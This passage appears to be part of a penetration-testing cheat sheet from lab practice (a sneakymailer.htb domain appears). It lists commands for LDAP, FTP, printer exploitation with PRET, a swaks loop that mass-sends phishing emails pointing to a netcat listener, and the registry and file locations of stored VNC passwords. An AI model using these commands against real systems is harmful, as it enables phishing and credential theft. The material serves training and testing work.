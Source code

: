 ```text
ldapsearch -x -LLL -w PASSWORD
```

#ftp

### Connect to ftp with username and password

```text
lftp -e 'set ssl:verify-certificate false' -u "user,pass" -p 21 10.10.10.10
```

## Printers

### Establish connection

```text
python pret.py 10.10.10.10 pjl
```

## Email sending and smtp password guessing

```text
1.
nc -lvnp 80

2.
while reading mail; do swaks --to $mail --from it@sneakymailer.htb --header "Subject: Credentials /
Errors" --body "goto http://10.10.10.19/" --server 10.10.10.10; done < mails.txt
```

## vnc

### Decode the VNC Install.reg file


```text
vncpwd.exe <ENCRYPTEDPASSWORD>
```

Oe 

```text
RealVNC
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
Value: Password

TightVNC
HKEY_CURRENT_USER\Software\TightVNC\Server
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini
vnc_viewer.ini
Value: Password or PasswordViewOnly

TigerVNC
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
Value: Password

UltraVNC
C:\Program Files\UltraVNC\ultravnc.ini
Value: passwd or passwd2
```
